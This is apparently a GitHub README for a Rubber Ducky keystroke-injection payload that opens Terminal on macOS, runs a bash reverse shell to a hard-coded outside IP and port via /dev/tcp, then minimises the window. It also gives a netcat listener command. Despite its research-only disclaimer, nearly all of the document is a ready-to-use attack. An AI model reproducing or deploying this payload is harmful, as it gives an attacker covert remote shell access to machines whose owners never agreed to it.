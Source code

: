 # Ducky-Rev-Shell
Duckyscript in a bash file to get a reverse shell on MacOS.

## DISCLAIMER: This is for security research purposes ONLY. Only use on machines where you have permission or your own.

## Setting up Listener
Listener set up command for Windows.
Run 
  nc -lvnp 87 -s 173.255.247.6
in Powershell, replacing the IP and port with relevant ones.

# DuckyScript Code
<code><pre>DELAY 50
COMMAND SPACE
DELAY 50
STRING TERMINAL
DELAY 50
ENTER
STRING bash
DELAY 50
ENTER
DELAY 50
STRING bash -i >& /dev/tcp/173.255.247.5/87 0>&1
REM Replace IP and port above with listening host
DELAY 50
ENTER
DELAY 50
COMMAND M
DELAY 50
</pre></code>

